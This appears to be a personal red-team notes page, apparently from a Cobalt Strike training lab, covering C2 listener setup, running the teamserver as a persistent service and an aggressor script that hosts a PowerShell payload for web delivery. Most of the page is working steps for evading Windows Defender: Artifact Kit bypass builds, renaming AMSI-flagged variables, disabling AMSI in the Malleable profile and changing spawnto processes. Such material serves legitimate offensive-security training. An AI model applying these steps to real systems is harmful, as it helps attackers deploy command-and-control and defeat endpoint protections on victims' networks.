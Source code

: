 ## These are the steps I check before to deep dive into the AD. 
This implies to create listeners, to run teamserver as a service, to check Win Defender and AppLocker and so on..

## 1) Listeners
Let's start creating at least one listner for each tipe Cobalt Strick permits you.
In the end I will have at lease a:
**DNS**
**HTTP**
**SMB**
**TCP**
**TCP-LOCAL**

**Important!** 
- **For DNS listener**, this requires we create one or more DNS records for a domain that the team server will be authoritative for.  In the case of nickelviper.com, I have setup the following:
  ```
  @	   A	10.10.5.50
  ns1  A  10.10.5.50
  pics NS ns1.nickelviper.com.
  ```
  We can test the records by performing an arbitrary lookup.  The team server's default response is 0.0.0.0.

- **For SMB listener**, they are very simple as they only have a single option - the named pipe name.  The default is ```msagent_##``` (where ## is random hex), but you can specify anything you want.  A Beacon SMB payload will start a new named pipe server with this name and listen for an incoming connection.  This named pipe is available both locally and remotely.
  Since this default pipe name is quite well signatured, a good strategy is to emulate names known to be used by common applications or Windows itself.  Use ```PS C:\> ls \\.\pipe\``` to list all currently listening pipes for inspiration, take one and use it changing the last, let's say, 4 letters/number and choosing them randomly.
  
- **For TCP listener**, A Beacon TCP payload will bind and listen on the specified port number.  You may also specify whether it will bind to only the localhost (127.0.0.1), otherwise it will bind to all interfaces (0.0.0.0).

## 2) Teamserver As A Service
Running the team server as a service allows it to start automatically when the VM starts up, which obviously saves us having to SSH in each time and start it manually.  This can be done with a systemd unit file.
- Create the file in /etc/systemd/system.
- Then paste the following content:
  ```
  [Unit]
  Description=Cobalt Strike Team Server
  After=network.target
  StartLimitIntervalSec=0

  [Service]
  Type=simple
  Restart=always
  RestartSec=1
  User=root
  WorkingDirectory=/home/attacker/cobaltstrike
  ExecStart=/home/attacker/cobaltstrike/teamserver 10.10.5.50 Passw0rd! c2-profiles/normal/webbug.profile

  [Install]
  WantedBy=multi-user.target
  ```
- Next, reload the systemd manager and check the status of the service.  It will be inactive/dead.
  ```
  attacker@ubuntu ~> sudo systemctl daemon-reload
  attacker@ubuntu ~> sudo systemctl status teamserver.service
  ```
- Start the service and check its status again.
  ```
  attacker@ubuntu ~> sudo systemctl start teamserver.service
  attacker@ubuntu ~> sudo systemctl status teamserver.service
  ```
- The service should be active/running and you will see the typical console output from the team server.  Now that we know the service is working, we can tell it to start on boot.
  ``` 
  attacker@ubuntu ~> sudo systemctl enable teamserver.service
  ```
  At this point, when the team server starts the listeners we had running are started, but any hosted files we had (e.g. via the scripted web delivery) will not be.  
  This presents a problem for these persistence mechanisms, as they're relying on a hosted payload being present.  
  The hosted payload must be available before persistence tasks are triggered for them to be of any use. In order to achieve this we can use a **headless Cobalt Strike client** via the ```agscript``` utility, to execute an aggressor script on launch. 
  
  Begin by creating host_payloads.cna.
  ```
  attacker@ubuntu ~/cobaltstrike> vim host_payloads.cna
  ```
  And paste this into it:
  ```
  # Connected and ready
  on ready {

   # Generate payload
   $payload = artifact_payload("http", "powershell", "x64");

   # Host payload
   site_host("10.10.5.50", 80, "/a", $payload, "text/plain", "Auto Web Delivery (PowerShell)", false);
  }
  ```
  we can now testthe script:
  ```
  attacker@ubuntu ~/cobaltstrike> ./agscript 127.0.0.1 50050 headless Passw0rd! host_payloads.cna
  ```
  If it works you will see the associated events in the Event Log and the payload will also be hosted.
  We can add this to our existing start up service by including a ExecStartPost line.
  ```
  ExecStartPost=/bin/sh -c '/usr/bin/sleep 30; /home/attacker/cobaltstrike/agscript 127.0.0.1 50050 headless Passw0rd! host_payloads.cna &'
  ```
## 3) Windows Defender
  You could find yourself in the situation that you can access to the File Server, but you can't _PsExec_ to it because the service binary payload is being detected by Defender.
  Error number 225 show this
  ```
  PS C:\Users\Attacker> net helpmsg 225
  Operation did not complete successfully because the file contains a virus or potentially unwanted software.
  ```
  Like many AV products, Defender has a database of definitions from which it can detect "known bad" very quickly.
  For this reason we should change those "bad segments". Artifact kits helps us doing it. 
  The kit can be found in ```C:\Tools\cobaltstrike\arsenal-kit\kits\artifact.```
  ### On-Disk (EXE files)
  The alert that Defender produces is tagged with ```file:```, indicating that something malicious was detected on disk.
  We can use a tool like ThreatCheck to (roughly) identify which part of a file Defender dislikes.  It achieves this by splitting the file into chunks, writing them into C:\Temp and triggering a manual scan.  It will attempt to find the single smallest piece that will trigger a positive detection.
  ```src-main/main.c``` is the entry point **for the EXE artifacts**.  It does nothing more than run a function called start and then just loops to prevent the process from closing.
  One of the bypass strategies included in the kit is called **bypass-pipe**.
  After having applied this strategy, since the Artifact Kit is designed to be built on Linux via the included ```build.sh``` script, it shopuld be run with the following parameters (it's just an example, use those you need specifically)
  ```ubuntu@DESKTOP-3BSK7NO /m/c/T/c/a/k/artifact> ./build.sh pipe VirtualAlloc 277492 5 false false /mnt/c/Tools/cobaltstrike/artifacts```
  This will build each variant of the EXE and DLL - staged, stageless, 32, and 64-bit.  
  It will also produce an _artifact.cna_ file that we need to load into the Cobalt Strike UI.  
  Go to ```Cobalt Strike > Script Manager > Load``` and select the CNA file in your output directory.  
  Any DLL and EXE payloads that you generate from hereon will use those new artifacts.  
  Use ```Payloads > Windows Stageless Generate All Payloads``` to replace all of your payloads in C:\Payloads.
  **TIP**: I always use another directory, (i.e Payloads2 in order to store the new payloads and leave the older in the Payload folder for any other case or for double checking reason)
  ### On-Memory (PS1 files)
  The alert that Defender produces is tagged with amsi: rather than file:, indicating that something malicious was detected in memory.
  Even though this is in-memory, the detections are still based on "known bad" signatures. 
  PowerShell files are a little easier to analyse compared to binary files - scanning it with ThreatCheck and the -e AMSI parameter, we see the bad strings.
  Where the Artifact Kit was used to modify the binary (EXE & DLL) payloads; the Resource Kit is used to modify the script-based payloads including the PowerShell, Python, HTA and VBA templates.
  The Resource Kit can be found in ```C:\Tools\cobaltstrike\arsenal-kit\kits\resource```
  Using different variable names ```$zz``` in place of ```$x``` and ```$v_code``` in place of ```$var_code``` will bypass Defender.

  The Beacon payload spawned powershell.exe and attempted to load PowerView.ps1 into it.  This was detected by AMSI and killed.  Defender also goes one step further and kills the process that spawned it (our Beacon), which is why we immediately lose the link to it.
  The same could happen using powerpick or execute -assembly.
  To avoid it:
  SSH into the team server and open the profile you're using in a text editor (for me, that's webbug.profile).
  ```
  attacker@ubuntu ~/cobaltstrike> vim c2-profiles/normal/webbug.profile
  ```
  Right above the http-get block, add the following:
  ```
    post-ex {
            set amsi_disable "true";
    }
  ```
  After modifying a profile, it's always a good idea to check it with c2lint to ensure you didn't break anything.
  ```
  attacker@ubuntu ~/cobaltstrike> ./c2lint c2-profiles/normal/webbug.profile
  ```
  _amsi_disable_ only applies to **powerpick, execute-assembly and psinject**.  It does not apply to the **powershell command.**
  However, It could still happen that your Beacon probably still dies shortly thereafter. This brings us to behavioural detections.
  The Beacon usually runs on the file server inside the **rundll32** process.
  rundll32 being the default "spawnto" for Cobalt Strike has been a thing for a long time and is now a common point of detection.  
  The service binary payload used by psexec also uses this by default, which is why you see those Beacons running as rundll32.exe.
  The process used for post-ex commands and psexec can be changed on the fly in the CS GUI.  To change the post-ex process, use the spawnto command.  x86 and x64 must be specified individually and environment variables can also be used.
  ```
  beacon> spawnto x64 %windir%\sysnative\dllhost.exe
  beacon> spawnto x86 %windir%\syswow64\dllhost.exe
  ```
  The default spawnto can be changed inside Malleable C2 by including the spawnto_x64 and spawnto_x86 directives inside the post-ex block.
  ```
  post-ex {
        set amsi_disable "true";

        set spawnto_x64 "%windir%\\sysnative\\dllhost.exe";
        set spawnto_x86 "%windir%\\syswow64\\dllhost.exe";
  }
  ```
  
  
  
  
